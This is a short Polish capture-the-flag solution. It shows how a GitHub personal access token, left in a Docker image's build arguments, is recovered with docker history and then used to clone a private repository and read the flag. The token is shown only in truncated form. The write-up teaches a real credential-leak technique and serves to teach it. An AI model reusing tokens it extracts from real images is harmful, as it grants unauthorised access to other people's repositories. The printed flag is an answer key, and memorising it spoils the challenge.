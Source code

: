 # Rozwiązanie - Git

Skoro mamy dostępny tylko obraz możemy zrobić dwie rzeczy:
- Zobaczyć polecenia budujące obraz używająć `docker history`
- Przeglądać pliki gotowego obrazu 

Zobaczmy zatem `docker history`:

```sh
docker pull typicalam/myawesomeapp
docker history --no-trunc typicalam/myawesomeapp
```

W środku poleceń kontenera zauważamy, że używa czegoś do zdobycia najnowszego `tag` z GitHuba. Wchodzimy na repozytorium [https://github.com/TypicalAM/VulnerablePAT](https://github.com/TypicalAM/VulnerablePAT) - nie istnieje, ale czy na pewno? Może nie mamy uprawnień...

Dodatkowo w `ARG`ach budowy znajduje się `GH_ACCESS`, które wygląda jak [Personal Access Token (PAT)](https://docs.github.com/en/authentication/keeping-your-account-and-data-secure/managing-your-personal-access-tokens) od GitHuba. Może damy radę użyć tego klucza, aby zdobyć dostęp do repozytorium? Spróbujmy:

```sh
export GH_ACCESS=github_pat...
git clone https://TypicalAM:$GH_ACCESS@github.com/TypicalAM/VulnerablePAT

Cloning into 'VulnerablePAT'...
remote: Enumerating objects: 14, done.
remote: Counting objects: 100% (14/14), done.
remote: Compressing objects: 100% (11/11), done.
remote: Total 14 (delta 3), reused 12 (delta 1), pack-reused 0 (from 0)
Receiving objects: 100% (14/14), done.
Resolving deltas: 100% (3/3), done.
```

Zobaczmy co jest w środku:

```sh
ls VulnerablePAT
Dockerfile  FLAGA.md  go.mod  main.go  README.md
```

Flaga? Zdobyta.

```sh
cat VulnerablePAT/FLAGA.md
PUTrequest{ARG_za_i_przeciw}
```

